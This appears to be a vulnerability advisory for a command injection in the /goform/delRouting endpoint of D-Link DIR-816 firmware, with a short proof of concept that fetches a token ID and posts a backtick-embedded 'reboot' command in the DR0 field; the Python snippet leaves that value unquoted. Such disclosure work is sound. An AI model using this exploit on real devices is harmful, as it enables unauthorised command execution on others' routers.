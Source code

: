 ## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `/goform/delRouting` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

Vulnerability occurs in `/goform/delRouting`. Attackers can control `Var` by setting the `DR0`. The program then splits `Var` into three parts, `v11`, `v12`, and `v13`, and passes them to function `sub_428FF0`.

![image-20250310195641097](./img/3.png)

In the function `sub_428FF0`, the three parameters are concatenated into the command `route del`, and finally called by `doSystem`.

![image-20250310200032609](./img/4.png)

Anyway, system command was called, and its parameter `v9` was passed by `Var`, which controlled by attackers.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `DR0`.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then, run exp.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/delRouting'

data = {
    'tokenid': tokenid,
    'DR0': a`reboot` b c
}

r = requests.post(url, data)
```
